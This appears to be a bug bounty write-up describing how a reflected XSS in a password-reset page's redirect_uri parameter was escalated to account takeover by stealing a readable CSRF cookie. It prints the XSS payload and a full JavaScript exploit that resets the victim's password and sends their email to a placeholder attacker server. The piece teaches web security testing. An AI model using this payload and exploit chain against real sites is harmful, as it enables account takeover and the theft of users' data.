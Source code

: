 Hello everyone, I’m Rifqihz a college student, certified Google ACE, BSCP, bug hunter and pentester. This is my first article since 1,5 years ago :’)

So please enjoy and hopefully learn something

# Background

A few days ago when doing bug bounty in a private program in Hackerone. I found a reflected XSS in their forgot password functionality in `redirect_uri`param. I’m able to inject XSS payload and trigger the mighty alert popup with cookie value in it or send the cookie to my Burp collabolator server. Then it’s done, create a report then submit it and I got the bounty right? Well it’s not that simple. There’s `httponly` attributes in the session cookie. Along with further analysis below I’ll explain more about my approach to utilize this XSS to takeover account without stealing the session cookie

# Detection

This is easy to detect but you need to pay attention to the detail of any reflected value and how the server respond it. Also Installing Burp extension like [Reflected](https://portswigger.net/bappstore/8e8f6bb313db46ba9e0a7539d3726651) could help you to detect it

Forgot password flow :

1.GET https://account.redacted.com/password/forgot?client_id=redacted_client_id&response_type=code&redirect_uri=https://account.redacted.com/api/login-redirect  
(it show 200 OK with all the params reflected in the response)  
2. POST https://account.redacted.com/password/forgot  
(param : client_id, redirect_uri, response_type, tenantId , email)  
(it show 302 Found redirect to 3rd request)  
3. GET https://account.redacted.com/password/sent?client_id=redacted_client_id&redirect_uri=https%3A%2F%2Faccount.redacted.com%2Fapi%2Flogin-redirect&response_type=code&tenantId=redacted_tenant_id  
(it show 200 OK with all the params reflected in the response)

In the first flow I tried to inject `'` in the `redirect_uri` param but it redirect to /404 , so we can’t inject xss there

![](https://miro.medium.com/v2/resize:fit:700/1*9r0-HOXAIWfKGlPgmW-4Wg.png)

fail XSS in flow 1

In the second flow, I tried again to inject `'` in the `redirect_uri` param but it also redirect to /404.

In the third flow I tried to inject `'` in the `redirect_uri` param and it still render the page and the object is broken, we found something here !

![](https://miro.medium.com/v2/resize:fit:700/1*je0W4CbcPOOKzvnaPWGVAw.png)

Broke JSON in flow 3

With this payload we can trigger the XSS

`[http://google.com'-window.alert(document.domain),'x':'](http://google.com'-window.alert(document.domain),'x':'/)`

![](https://miro.medium.com/v2/resize:fit:648/1*8Sc42FpbzmLget9Sx0teKg.png)

XSS alert trigger

# Exploitation

As stated before the session cookie is secured with `httponly` attributes so we can’t takeover victim account that way.

After some analysis i found 2 important point :

1. The X-Redacted-CSRF-Token is contain the CSRF token and the `httponly` attributes is not set so we can steal it
2. The update password feature is using CSRF token but it only require new password parameter and doesn’t need the current password

You see where it’s going right?

We can use those behaviour to create this attack scenario :

1. Steal user CSRF Token via X-Redacted-CSRF-Token cookie
2. Send request to get user profile endpoint to obtain victim email
3. Send request to update victim password with stealed CSRF token
4. Send request to attacker server containing the victim email to notify the victim with that email address has been hacked
5. Once attacker get notified, attacker just need to login to victim account using victim email and the new password

## Technical Aspect

Learned from Portswigger academy i always like to use the `eval(atob('<base64(payload)>'))` to execute XSS payload without having trouble with the `',",new line` or other similar character. But in this case the eval function is blocked. Fortunately we can still use the Function().

Code :

var victimData = {}  
const response = fetch('/api/user', {  
   method: 'GET',  
    credentials: 'include'  
}).then((response)=>{return response.json()  
}).then((data) => {  
    victimData['email'] = data['email']  
})  
function getCookie(name) {  
    const value = `; ${document.cookie}`;  
    const parts = value.split(`; ${name}=`);  
    if (parts.length === 2) return parts.pop().split(';').shift();  
}  
const csrfToken = getCookie('X-Redacted-Csrf-Token')  
fetch('/api/user/password?csrf='+csrfToken,{  
        method: 'PUT',  
        credentials: 'include',  
        body: JSON.stringify({email: victimData['email'], password: 'v1ctimN3wPassw00rd#'})  
}).then((response) => {  
    if (response.status === 200){  
        alert(`Account ${victimData['username']} with email ${victimData['email']} has been pwned. Password: v1ctimN3wPassw00rd#`)  
    }else{  
        alert('Error: ' + status_code)  
    }  
})  
fetch('https://<attacker server>?email='+victimData['email'])

Final exploit :

http://google.com'-Function(atob('<base64(code)>'))(),'x':'

# Lesson learned

We should pay attention to cookies attributes like `httponly` and `secure` and which is the session cookie that could be used to authenticate and which is not. If the session cookie is set with `httponly` then try to find other way to retrieve it like from [phpinfo.php file](https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b) or maybe some pages that leaks the cookie in the response body. If there’s nothing then just do some further analysis and be creative to use this javascript execution to obtain the account takeover or other more impacted action. Always aim to get the highest impact

You can comment if you want to discuss with me,

Thank you for reading ! I hope you like it !

